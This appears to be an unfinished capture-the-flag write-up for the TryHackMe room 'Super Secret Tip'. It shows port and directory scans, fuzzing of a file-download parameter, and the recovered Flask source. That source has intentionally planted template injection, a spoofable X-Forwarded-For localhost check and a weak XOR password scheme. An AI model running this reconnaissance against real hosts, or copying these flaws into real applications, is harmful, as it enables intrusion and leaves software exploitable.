 <code>

https://tryhackme.com/room/supersecrettip


```nmap  -sV -A -Pn 10.10.150.162   
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-06-27 12:40 CEST
Nmap scan report for 10.10.150.162
Host is up (0.038s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.7 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 3e:b8:18:ef:45:a8:df:59:bf:11:49:4b:1d:b6:b8:93 (RSA)
|   256 0b:cf:f9:94:06:85:97:f6:bd:cc:33:66:4e:26:ea:27 (ECDSA)
|_  256 60:ce:be:2d:1e:f0:18:00:30:70:ff:a2:66:d7:85:f7 (ED25519)
7777/tcp open  cbt?
| fingerprint-strings: 
|   GetRequest: 
|     HTTP/1.1 200 OK
```




```                                                                                                                                                                                                                                          
┌──(kali㉿kali)-[~]
└─$ gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u http://10.10.150.162:7777 -x .php, .txt, .html 
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.150.162:7777
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Extensions:              php,
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/cloud                (Status: 200) [Size: 2991]
/debug                (Status: 200) [Size: 1957]
```

                                                                                                                               
┌──(kali㉿kali)-[~]
└─$ gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u http://10.10.67.247:7777/cloud -x .php, .txt
nothing

## FFUZ

```
POST http://10.10.247.188:7777/cloud HTTP/1.1
host: 10.10.247.188:7777
user-agent: Mozilla/5.0 (Windows NT 10.0; rv:125.0) Gecko/20100101 Firefox/125.0
pragma: no-cache
cache-control: no-cache
content-type: application/x-www-form-urlencoded
referer: http://10.10.247.188:7777/cloud
content-length: 21

download=FFUZ
```


**Get Source.py file**

```
from flask import *
import hashlib
import os
import ip # from .
import debugpassword # from .
import pwn

app = Flask(__name__)
app.secret_key = os.urandom(32)
password = str(open('supersecrettip.txt').readline().strip())

def illegal_chars_check(input):
    illegal = "'&;%"
    error = ""
    if any(char in illegal for char in input):
        error = "Illegal characters found!"
        return True, error
    else:
        return False, error

@app.route("/cloud", methods=["GET", "POST"]) 
def download():
    if request.method == "GET":
        return render_template('cloud.html')
    else:
        download = request.form['download']
        if download == 'source.py':
            return send_file('./source.py', as_attachment=True)
        if download[-4:] == '.txt':
            print('download: ' + download)
            return send_from_directory(app.root_path, download, as_attachment=True)
        else:
            return send_from_directory(app.root_path + "/cloud", download, as_attachment=True)
            # return render_template('cloud.html', msg="Network error occurred")

@app.route("/debug", methods=["GET"]) 
def debug():
    debug = request.args.get('debug')
    user_password = request.args.get('password')
    
    if not user_password or not debug:
        return render_template("debug.html")
    result, error = illegal_chars_check(debug)
    if result is True:
        return render_template("debug.html", error=error)

    # I am not very eXperienced with encryptiOns, so heRe you go!
    encrypted_pass = str(debugpassword.get_encrypted(user_password))
    if encrypted_pass != password:
        return render_template("debug.html", error="Wrong password.")
    
    
    session['debug'] = debug
    session['password'] = encrypted_pass
        
    return render_template("debug.html", result="Debug statement executed.")

@app.route("/debugresult", methods=["GET"]) 
def debugResult():
    if not ip.checkIP(request):
        return abort(401, "Everything made in home, we don't like intruders.")
    
    if not session:
        return render_template("debugresult.html")
    
    debug = session.get('debug')
    result, error = illegal_chars_check(debug)
    if result is True:
        return render_template("debugresult.html", error=error)
    user_password = session.get('password')
    
    if not debug and not user_password:
        return render_template("debugresult.html")
        
    # return render_template("debugresult.html", debug=debug, success=True)
    
    # TESTING -- DON'T FORGET TO REMOVE FOR SECURITY REASONS
    template = open('./templates/debugresult.html').read()
    return render_template_string(template.replace('DEBUG_HERE', debug), success=True, error="")

@app.route("/", methods=["GET"])
def index():
    return render_template('index.html')

if __name__ == "__main__":
    app.run(host="0.0.0.0", port=7777, debug=False)
```

**Main from source.py**

There is a file called ‘**supersecrettip.txt**’ in the same directory that we can download it.
This file import two other non-standard python file called **ip.py(using in /debugresult) and debugpassword.py** .
When using debugger, the “‘&;%” is the illegal character.
In the /cloud directory, there is only two kind of file can be downloaded, the first one is called “source.py”, another one is the file with “.txt” extension.
There is another directory called **/debugresult** . It seems use to get the feedback of the /debug page.

```
┌──(kali㉿kali)-[~/Documents/THM/THM_SuperSecretTip]
└─$ ls
debugpassword.py  ip.py  source.py  supersecrettip.txt
                                                                                                                               
┌──(kali㉿kali)-[~/Documents/THM/THM_SuperSecretTip]
└─$ cat debugpassword.py 
import pwn

def get_encrypted(passwd):
    return pwn.xor(bytes(passwd, 'utf-8'), b'ayham')
                                                                                                                               
┌──(kali㉿kali)-[~/Documents/THM/THM_SuperSecretTip]
└─$ cat ip.py           
host_ip = "127.0.0.1"
def checkIP(req):
    try:
        return req.headers.getlist("X-Forwarded-For")[0] == host_ip
    except:
        return req.remote_addr == host_ip
                                                                                                                               
┌──(kali㉿kali)-[~/Documents/THM/THM_SuperSecretTip]
└─$ cat supersecrettip.txt 
b' \x00\x00\x00\x00%\x1c\r\x03\x18\x06\x1e'


┌──(kali㉿kali)-[~/Documents/THM/THM_SuperSecretTip]
└─$ python3                                                
Python 3.11.9 (main, Apr 10 2024, 13:16:36) [GCC 13.2.0] on linux
Type "help", "copyright", "credits" or "license" for more information.
>>> b' \x00\x00\x00\x00%\x1c\r\x03\x18\x06\x1e'.hex()
'2000000000251c0d0318061e'
```
